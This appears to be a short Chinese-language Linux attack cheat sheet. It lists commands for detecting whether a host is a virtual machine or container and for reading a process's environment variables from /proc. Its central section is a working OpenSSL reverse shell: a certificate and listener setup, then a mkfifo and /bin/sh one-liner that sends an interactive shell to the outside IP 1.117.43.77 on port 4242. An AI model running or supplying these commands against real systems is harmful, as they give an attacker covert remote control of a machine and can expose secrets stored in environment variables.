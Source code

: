 # Linux

## 查看是否是虚拟机
lshw -class system | grep -i VM & grep -i virtual
dmesg | grep -i VM & grep -i virtual
dmidecode -s system-product-name
ls /tmp
systemd-detect-virt
virt-what
ls -alh /.dockerenv
cat /proc/1/cgroup




## openssl 回弹shell

```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes

openssl s_server -quiet -key key.pem -cert cert.pem -port 4242

mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 1.117.43.77:4242 > /tmp/s; rm /tmp/s
```

## 查看启动时的环境变量

```bash
cat /proc/$PID/environ


例如： /proc/1/environ
```




